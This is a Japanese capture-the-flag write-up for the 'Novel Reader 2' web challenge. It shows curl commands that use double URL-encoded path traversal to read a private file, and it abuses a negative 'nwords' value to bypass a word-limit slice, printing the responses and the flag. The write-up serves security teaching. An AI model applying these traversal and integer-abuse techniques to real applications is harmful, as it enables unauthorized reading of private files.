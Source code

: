 # Novel Reader 2:Web:46pts
Submit the second flag of "Novel Reader" here  

# Solution
[Novel reader](../Novel_reader)の続きのようだ。  
ファイル構造を再度確認すると以下のようであった。  
```bash
$ tree
.
├── index.html
├── main.py
├── private
│   └── A-Secret-Tale.txt
├── public
│   ├── A-Happy-Tale.txt
│   └── A-Sad-Tale.txt
└── static
    ├── script.js
    └── style.css

3 directories, 7 files
$ cat private/A-Secret-Tale.txt
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```
`private`の`A-Secret-Tale.txt`にフラグが書かれている。  
トラバーサルして読み取ってみる。  
```bash
$ curl -H 'Cookie: session=eyJjcmVkaXQiOjAsIndvcmRzX2JhbGFuY2UiOjExfQ.Za0PlQ._41fKxqQM14l0Afp4vvm1y5-bz4' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252fprivate%252fA-Secret-Tale.txt'
{"msg":"Once a upon time there was a flag. The flag was... Charge your account to unlock more of the novel!","success":true}
```
途中までしか読み取れていない。  
ソースの読み取り個所を確認する。  
```python
~~~
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
~~~
```
スペースで分割されている。  
`buf[0:session['words_balance']]`により`buf[0:10]`しか読み取れていないことがわかる。  
`Words Balance`を管理する箇所を調査する。  
```python
~~~
@app.post('/api/charge')
def buyWord():
    nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
            return {'success': True, 'msg': 'Added to your account!'}
        return {'success': False, 'msg': 'Not enough credit.'}, 402
    else:
        return {'success': False, 'msg': 'Missing parameteres.'}, 400
~~~
```
入力値`nwords`をintにキャストし、`session['words_balance'] += nwords`している。  
ここで負の数も使用できることに気づく。  
すると、`buf[0:-1]`となり、末尾の要素の一つ前まで取得できる。  
以下のように実行する。  
```bash
$ curl -X POST http://3.64.250.135:9000/api/charge?nwords=-2 -I
HTTP/1.1 200 OK
Server: nginx/1.23.2
Date: Sun, 21 Jan 2024 12:52:51 GMT
Content-Type: application/json
Content-Length: 48
Connection: keep-alive
Vary: Cookie
Set-Cookie: session=eyJjcmVkaXQiOjEyMCwid29yZHNfYmFsYW5jZSI6LTF9.Za0Tow.d4wb0ZkusjNa85pVXZ9OyNvjHBg; HttpOnly; Path=/

$ curl -H 'Cookie: session=eyJjcmVkaXQiOjEyMCwid29yZHNfYmFsYW5jZSI6LTF9.Za0Tow.d4wb0ZkusjNa85pVXZ9OyNvjHBg' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252fprivate%252fA-Secret-Tale.txt'
{"msg":"Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!","success":true}
```
flagが得られた。  

## MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}